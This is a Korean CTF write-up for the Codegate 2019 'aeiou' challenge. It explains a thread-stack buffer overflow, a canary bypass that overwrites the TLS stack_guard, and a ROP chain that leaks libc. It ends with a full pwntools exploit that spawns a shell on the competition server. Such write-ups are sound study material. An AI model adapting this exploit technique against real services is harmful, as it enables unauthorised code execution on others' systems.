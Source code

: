 ```yaml
---
layout: post
title: ! "[Codegate 2019] aeiou Write-up"
comments: true
excerpt_separator: <!--more-->
tags:
  - MyriaBreak
  - Write-up
  - Pwn
  - Codegate2019
---
```

### Description

> nc 110.10.147.109 17777

> [aeiou](../images/myria/aeiou-writeup/onewrite)


<!--more-->
주어진 바이너리를 실행하면 아래와 같은 메뉴를 확인할 수 있다.

```bash
Raising a Baby
-------------------------------------
[1] Play with Cards
[2] Clearing the Cards
[3] Teaching numbers
[4] Sleeping the Baby
[5] Dancing with Baby!
[6] Give the child blocks!
[7] Sleep me
--------------------------------------
>>
```

 하지만 어떤 메뉴를 선택하든 프로그램은 그 메뉴를 한번 실행하고 종료되기 때문에, 단 한 번에 공격이 이루어져야 한다.
 바이너리를 분석해보면 `pthread_create함수`로 새로운 스레드를 생성하여 `start_routine` 함수를 실행하는 부분이 있다. 이 `start_rountine`(0x4013AA)함수의 C 의사코드는 아래와 같다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_02.PNG)

 버퍼는 0x1000만큼 할당되어있지만 입력은 0x10000만큼 입력할 수 있습니다. 이는 BOF가 있음을 알려줍니다.

 ```bash
 [*] '/home/myria/CTF/CODEGATE/aeiou/aeiou'
     Arch:     amd64-64-little
     RELRO:    Full RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      No PIE (0x400000)
 ```
 하지만 카나리가 있기 때문에 BOF를 통해 바로 return address를 덮어씌울 방법이 없다.
 이를 우회하기위해 pthread_create함수가 이용된다. 스레드가 pthread_create함수에 의해 생성될 경우, 스레드의 스택에 `Thread Local Storage(TLS)`를 사용하여 변수를 저장한다. 즉, 스레드의 스택에 `stack_guard`, 즉 카나리값이 존재하기 때문에 이를 덮어씌우면 BOF를 사용하여 RIP를 컨트롤 할 수 있다.

 이제 `ROP기법`을 이용하여 라이브러리 주소를 유출(leak)하고 `원샷가젯 (execve("/bin/sh", rsp+0x30, environ))`을 실행하면 된다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_03.PNG)

### Full exploit code

```python
from pwn import *

conn = remote("110.10.147.109", 17777)
#conn = process("./aeiou")


def Teaching(num, data):
	conn.recvuntil(">>")
	conn.sendline("3")
	conn.recvuntil("Let me know the number!\n")
	conn.sendline(str(num))
	conn.send(data)

pop_rdi = 0x4026f3
pop_rsi_r15 = 0x4026f1
bss_addr = 0x604110

# leak atol (libc_address)
payload  = p64(pop_rdi) # pop rdi; ret;
payload += p64(0x603FC0) # atol@GOT
payload += p64(0x400B58) # jmp puts@PLT

# read(0, 0x602030, SIZE) %% rdi=0, rsi=0x602030, rdx = big value
payload += p64(pop_rdi) # pop rdi; ret;
payload += p64(0)		 # stdin
payload += p64(pop_rsi_r15) # pop rsi; pop r15; ret;
payload += p64(bss_addr)
payload += p64(0)		# r15 <= garbage
payload += p64(0x400B88) # jmp read@PLT

# rsp -> bss
payload += p64(0x4026ed) # pop rsp; pop r13; pop r14; pop r15; ret
payload += p64(bss_addr)


Data  = "A"*(0x1010-8)
Data += p64(0xdeadbeefcafebabe) # fake canary
Data += "B"*8 	# sfp
Data += payload # rop chain
Data += "C" * (2000-len(payload)) # rop chain
Data += p64(0xdeadbeefcafebabe) # fake canary

Teaching(0x1010 + 2008 + 8, Data)


# leak
conn.recvuntil("Thank You :)\n")
libc_base = u64(conn.recv(6).ljust(8, "\x00")) - 0x36ea0
log.info("libc_base: " + hex(libc_base))

"""
0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
	[rsp+0x30] == NULL
"""

one_gadget = libc_base + 0x4526a
log.info("oneshot : " + hex(one_gadget))

payload  = p64(0) * 3 # pop r13; pop r14; pop r15; ret
payload += p64(one_gadget)
payload += '\x00' * 0x40  ## [rsp+0x30] == NULL

conn.sendline(payload)
conn.interactive()
```
